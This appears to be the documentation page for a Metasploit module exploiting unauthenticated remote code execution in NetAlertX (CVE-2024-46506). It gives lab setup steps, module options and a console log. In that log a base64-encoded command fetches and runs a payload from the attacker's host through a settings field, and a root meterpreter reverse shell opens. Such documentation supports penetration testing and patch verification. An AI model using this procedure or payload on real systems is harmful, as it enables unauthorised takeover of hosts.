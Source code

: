 ## Vulnerable Application

An attacker can update NetAlertx settings with no authentication, which results in RCE.

The vulnerability affects:

    * v23.01.14 <= NetAlertX <= v24.9.12

This module was successfully tested on:

    * NetAlertX v24.9.12 installed with Docker on Ubuntu 22.04


### Installation

1. `docker pull jokobsk/netalertx:24.9.12`

2. docker run
```bash
docker run --rm --network=host \
  -v /tmp/netalertx:/app/config \
  -v /tmp/netalertx:/app/db \
  -e TZ=Europe/Berlin \
  -e PORT=20211 \
  jokobsk/netalertx:24.9.12
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/netalertx_rce_cve_2024_46506`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options
### WAIT (required)
Wait time (seconds) for the payload to be set. Default is `75`.


## Scenarios
```
msf6 > use exploit/linux/http/netalertx_rce_cve_2024_46506
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/netalertx_rce_cve_2024_46506) > options

Module options (exploit/linux/http/netalertx_rce_cve_2024_46506):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                       ml
   RPORT    20211            yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host
   WAIT     75               yes       Wait time (seconds) for the payload to be set


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      hhPzIVsphPBC     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/netalertx_rce_cve_2024_46506) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 24.9.12 detected.
[*] Sent request to update DBCLNP_CMD to '/bin/bash -c echo${IFS}d2dldCAtcU8gLi9tR1Brb3hyUk9WIGh0dHA6Ly8xOTIuMTY4LjU2LjE6ODA4MC9HLThmOG5rb0gwZFRaR1BzTnZTMjNnO2NobW9kICt4IC4vbUdQa294clJPVjsuL21HUGtveHJST1Ymc2xlZXAgNDtybSAtcmYgLi9tR1Brb3hyUk9W|base64${IFS}-d|/bin/bash'.
[*] Waiting settings really updated...
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:42572) at 2025-02-08 13:42:04 +0900
[*] Added the payload to the queue. Waiting for the payload to run...
[*] Sent request to update DBCLNP_CMD to 'python3 /app/front/plugins/db_cleanup/script.py pluginskeephistory={pluginskeephistory} hourstokeepnewdevice={hourstokeepnewdevice} daystokeepevents={daystokeepevents} pholuskeepdays={pholuskeepdays}'.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           :  (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
